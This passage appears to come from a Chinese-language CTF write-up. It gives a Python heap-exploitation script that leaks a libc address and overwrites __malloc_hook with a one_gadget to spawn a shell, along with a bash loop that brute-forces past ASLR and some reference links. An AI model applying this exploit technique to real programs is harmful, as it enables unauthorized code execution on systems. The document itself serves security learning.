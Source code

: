 ````python
add(1,0x18)
add(0,0xf0)
edit(1,p64(0)*2+p64(0xf0),full=True)
#10 step
for i in range(7):
	add(i+1,0xf0)
for i in range(7):
	delete(i+1)
#11 step
delete(0)
#get shell
add(0,0x10)
show(8)
ru('\n')
libc_base=u64(ru('\n').replace('\n','').ljust(8,'\x00'))-0x3b3ca0
malloc_hook=libc_base+libc.symbols['__malloc_hook']
realloc=libc_base+libc.symbols['realloc']
onegadget=libc_base+0xdf202
info_addr("libc_base",libc_base)
info_addr("malloc_hook",malloc_hook)
info_addr("onegadget",onegadget)
add(1,0x20)
delete(8)
edit(1,p64(malloc_hook-0x8))
add(0,0x20)
add(1,0x20)
edit(1,p64(onegadget)+p64(realloc+2))
add(1,0x20)
itr()
````

注意这里heap地址的第13-16位是随机的，所以如果开启了ASLR那么就需要爆破，那么就需要写一个bash脚本。

````bash
for i in `seq 1 100`
do
        python exp.py
done
````

# REF

[linux程序保护机制&gcc编译选项](https://www.jianshu.com/p/91fae054f922)

[glibc2.29下的off-by-null](https://bbs.pediy.com/thread-257901.htm)
